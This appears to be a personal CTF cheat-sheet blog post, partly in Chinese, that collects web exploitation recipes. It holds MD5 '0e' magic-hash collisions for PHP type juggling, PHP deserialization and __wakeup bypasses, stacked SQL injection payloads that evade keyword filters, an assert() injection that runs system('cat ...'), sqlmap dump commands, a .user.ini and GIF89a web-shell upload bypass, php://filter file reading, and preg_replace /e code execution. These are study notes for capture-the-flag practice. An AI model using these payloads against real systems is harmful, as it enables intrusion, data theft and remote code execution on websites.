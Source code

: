 ```yaml
---
layout: post
title: "Note for Development"
create: 2019-09-05
update: 2019-09-05
categories: blog
tags: [Dev]
description: "Note for CTF"
---
```


MD5 为 0exxxx开头的字符串 {
    QNKCDZO
    0e830400451993494058024219903391
    
    s878926199a
    0e545993274517709034328855841020
    
    s155964671a
    0e342768416822451524974117254469
    
    s214587387a
    0e848240448830537924465865611904
    
    s1091221200a
    0e940624217856561557816327384675
    
    s1502113478a
    0e861580163291561247404381396064
    
    s1885207154a
    0e509367213418206700842008763514
    
    s1836677006a
    0e481036490867661113260034900752
    
    s1184209335a
    0e072485820392773389523109082030
    
    s1665632922a
    0e731198061491163073197128363787
    
    s532378020a
    0e220463095855511507588041205815 
}

POST
file_get_contents('php://input','r');

```git
- git clone https://github.com/lijiejie/GitHack
- git clone https://github.com/maurosoria/dirsearch
- python GitHack.py  http://url/.git/

```

(==) "666" == 666.00e-0000

PHP 序列化
```php
//数字前有+号不会影响反序列化,但是可以绕过正则表达式
class SeBaFi {
    var $name;
    var $password;
}
$o=new SeBaFi();
$o->password=&$o->name;
echo serialize($o);

// 序列化后的字符串标记的成员数量大于实际数量时可以绕过__wakeup()方法
```

```sql
select 1,table_name from information_schema.tables where table_schema='csdb' and table_type='base table';

concat('se', 'lect')
1';show tables;
1';show columns from `1919810931114514`;#
1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
```

PHP 语句闭合
```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
?>

/*构造*/
?page=1','2') === false and system('cat templates/flag.php') and strpos('templates/flag
/*拼接*/
assert("strpos(‘templates/1’, ‘2’) === false and system(‘cat templates/flag.php’) and strpos(‘templates/flag.php’) or die(“Detected hacking attempt!”);
```


```sh
# 注入测试
    sqlmap -r <file> #file 是请求文件
    sqlmap -u <url>
# 获取数据库列表
    sqlmap -r <file> --dbs
    sqlmap -u <url> --dbs
# 获取数据库中的表
    sqlmap -r <file> -D <database> --tables
# 获取数据表中字段
    sqlmap -r <file> -D <database> -T <table> --columns
# 获取数据表中字段的值
    sqlmap -r <file> -D <database> -T <table> -C <column> --dump
```

```php
// php服务器中每个目录下有`.user.ini`可以用来单独配置这些php文件
auto_prepend_file=<file> // 在文件前加入<file>的内容
auto_append_file=<file> // 在文件后加入<file>的内容

// 伪造文件头 - exif_imagetype() 绕过
`.user.ini` 
GIF89a
auto_prepend_file=<file>

`<file>`
GIF89a
<script language='php'>system('cat /flag');</script>
```

PHP 读取任意文件base64编码
```
http://url?arg0=php://filter/read=convert.base64-encode/resource=xxx.php
```

PHP preg_replace 漏洞
```php
/**
 * $pattern 以 '/e' 结尾, 则 $replacement 会被当作php代码替换
 */
preg_replace(mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count]]);
```